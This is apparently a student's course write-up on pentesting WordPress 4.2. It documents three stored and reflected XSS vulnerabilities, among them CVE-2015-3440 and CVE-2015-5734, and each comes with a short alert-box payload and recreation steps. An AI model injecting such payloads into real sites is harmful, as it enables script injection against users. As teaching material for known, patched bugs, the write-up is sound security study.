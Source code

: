 # Project 7 - WordPress Pentesting

Time spent: **2.5** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) CVE-2015-3440
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_1.gif
  - [X] Steps to recreate: Enter the following in the Reply:
  
`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
       
  - [X] Affected source code:
    - [Link 1](https://www.exploit-db.com/exploits/36844/)
    
    
    
2. (Required) Vulnerability Name or ID
  - [X] Summary: XSS (Authenticated Cross-Site Scripting)
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.6
  - [X] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_2.gif
  - [X] Steps to recreate: Enter the following in the Reply:
  
  `http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(2)>`
  
  - [X] Affected source code:
    - [Link 2](https://github.com/WordPress/WordPress/blob/master/wp-admin/customize.php)
    
    
    
   
3. (Required) Vulnerability Name or ID
  - [X] Summary: CVE-2015-5734
    - Vulnerability types: XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.4
  - [X] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_3.gif
  - [X] Steps to recreate: Enter and submit the following in the Reply:
  
  `<a href='/wp-admin/' title="" style="position:absolute;top:0;width:10%;height:100%;display:block;" onmouseover=alert(1)//'>TEST</a>`
  
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_1.gif
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_2.gif
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
